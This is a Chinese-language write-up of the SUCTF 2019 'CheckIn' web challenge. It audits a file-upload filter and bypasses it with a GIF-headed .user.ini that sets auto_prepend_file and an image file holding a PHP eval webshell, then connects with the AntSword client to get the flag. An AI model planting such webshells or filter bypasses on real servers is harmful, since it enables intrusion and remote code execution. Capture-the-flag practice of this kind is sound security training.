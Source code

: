 # [SUCTF 2019]CheckIn
TAG:
## 解题过程：  
![20210108161254](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108161254.png)  
题目同时提供了源码：  
https://github.com/team-su/SUCTF-2019/tree/master/Web/checkIn  
![20210108162023](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108162023.png)  
下载下来进行代码审计,获取如下信息：  
1. 上传的所有文件可读可写可运行  
![20210108162126](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108162126.png)  
2. 不能上传含有ph和htacess字符串的文件  
![20210108162159](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108162159.png)  
3. 屏蔽掉了含有<?字符串文件的上传  
![20210108162309](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108162309.png)  
4. 使用exif_imagetype()函数进行了上传文件类型的限制  
![20210108162401](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108162401.png)  
  
总结：  
1. 无法上传php脚本文件
2. 存在文件头过滤，需要伪造图片文件头
3. 文件内容不能包含"```<?```"，使用```<script language='php'><scirpt>```类型的图片马来绕过
4. 无法上传```.htaccess```来使图片马解析，考虑上传.user.ini文件代替
  
解题步骤：  
1. 准备```.user.ini```和图片马1.jpg  
```.user.ini```:  
```
GIF89A
auto_prepend_file=1.jpg
```
  
```1.jpg```  
```
GIF89A
<script language="php">@eval($_POST['pass']);</script>
```
  
2. 分别上传  
![20210108162914](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108162914.png)  
![20210108162931](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108162931.png)  
3. 使用蚁剑连接，获得flag  
![20210108163006](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163006.png)  
![20210108163031](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108163031.png)  
